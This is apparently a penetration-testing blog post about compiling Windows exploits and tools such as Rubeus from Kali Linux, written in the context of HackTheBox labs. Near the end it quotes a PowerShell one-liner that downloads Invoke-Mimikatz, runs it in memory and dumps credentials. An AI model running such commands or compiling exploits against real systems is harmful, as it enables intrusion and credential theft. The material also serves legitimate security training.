 ```yaml
---
layout: post
title: Compile Windows Programs in Kali Linux
category: Tools
date: 2023-04-19 20:51 +0300
---
```


There are a lot of situations, when you have to compile an exploit for a specific version of Windows, for example, to make a privilege escalation. But you have only Kali Linux and no idea how to deal with these exploits in Visual Studio Projects format.

Today we are going to learn about ways we can compile our exploits using Kali Linux and additional software.

> Funny story: I was doing some lab on HackTheBox and I had to upload a compiled version of Rubeus. I had no idea how to compile Windows programs, and I had only Kali Linux. So I’ve started to search some pre-compiled versions on the Internet. And I really found a pre-compiled base64 version of the program, which did not work for me. I’ve spent a few hours on this searching, and finally I got the “right” version of the Rubeus, which worked for me. After some amount of time I’ve realized that I could do it much easier. It was so terrible🤣.

# Cross-compiler

If you want to compile your exploit right on your Kali Linux machine, you can use cross-compilation tools, like `mingw-w64`. It is used to compile Windows programs on Linux.

```bash
sudo apt install mingw-w64
```

For example, you have a x86 victim machine and an exploit for it. You may want to compile an exploit written in `C` language. You can use the commands below to do that.

```bash
searchsploit -m 42341
i686-w64-mingw32-gcc 42341.c -lws2_32 -o exploit.exe
```

![Compiling with mingw-w64](/assets/tools/compile-windows-programs-in-kali-linux/mingw.png)

# Virtual Machine

It is recommended to install a VM on your side to test your exploits/theories about the target. So, you can compile the program right on that machine. But be sure to install right target’s version of the operating system.

Firstly, you have to install the iso image of the OS. You can download the right version of Windows on [Microsoft website](https://www.microsoft.com/en-gb/software-download/windows10), the [Internet Archive](https://archive.org/details/windows-10-2022-update-version-22h2) or other sites. I provided links to Windows 10 Update Version 22H2 just for example.

Then, create a VM in virtualization software you like. I used to work with VirtualBox, but now I use VMWare Workstation Player, it seems better for me.

![Creating a VM in VMWare Workstation Player](/assets/tools/compile-windows-programs-in-kali-linux/vmware.png)

If you did it well, feel free to use new VM not just to compile programs for it. You can explore the system for file system, default settings, testing your exploits, etc…

# On the victim machine

It is a very low-possible way, but why not? If the target machine has a compiler installed, then we can use it to compile projects right on the target machine.  

For example, to build [Rubeus](https://github.com/GhostPack/Rubeus), a C# project just with command line you have to use `MSBuild` binary. I’ve found its location on [StackOverFlow](https://stackoverflow.com/questions/44567280/where-is-msbuild-exe-installed-in-windows-when-installed-using-buildtools-full-e), the root of it is `C:\Program Files (x86)\Microsoft Visual Studio`. There you can find the year of installed version, then go to build tools and you’ll get it.

Copy the binary path, change your current directory to the project directory and use the binary from there.

```powershell
 "C:\Program Files (x86)\Microsoft Visual Studio\2017\BuildTools\MSBuild\15.0\Bin\MSBuild.exe"
```

![Building Rubeus with MSBuild](/assets/tools/compile-windows-programs-in-kali-linux/msbuild1.png)

![Building Rubeus with MSBuild](/assets/tools/compile-windows-programs-in-kali-linux/msbuild2.png)

Then, enjoy your program!

![Using Rubeus after MSBuild](/assets/tools/compile-windows-programs-in-kali-linux/msbuild3.png)

Also, developers machines always include some kind of IDEs with a lot of useful tools installed. So, if you have a RDP connection, then why not to use the legitimate developer tools 😀. 

# Find pre-compiled versions

## Kali Linux windows binaries

The Kali tools provides some pre-compiled Windows binaries installed with operating system. The `windows-binaries` is a package, which can be installed with `apt`.

```bash
sudo apt install windows-binaries
```

After installation, you can enter the `windows-binaries` command to get a list of pre-compiled binaries. Also, you will change your working directory to package installation directory.

![windows-binaries command output](/assets/tools/compile-windows-programs-in-kali-linux/windows-binaries.png)

## The Internet

There are a lot of pre-compiled versions of useful binaries. They can be even ported in PowerShell scripts.

For example, you can find an [Invoke-Mimikatz.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1) script. If we look at its source code, we can find Base64 strings for 64-bit and 32-bit systems.

![Invoke-Mimikatz Source code](/assets/tools/compile-windows-programs-in-kali-linux/invoke-mimikatz.png)

You can just download and use that script. But there is no guarantee it would work on your system. Here is a quick in-memory usage example from [HackTricks](https://book.hacktricks.xyz/windows-hardening/stealing-credentials#invoke-mimikatz).

```powershell
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/clymb3r/PowerShell/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1')
Invoke-Mimikatz -DumpCreds # Dump creds from memory
```

# Conclusion

Today we explored ways to compile Windows programs. You can use these methods to use your exploits on target machines. If you know another ways to do that, feel free to write a comment.

Thank you for reading, I hope it was useful for you ❤️
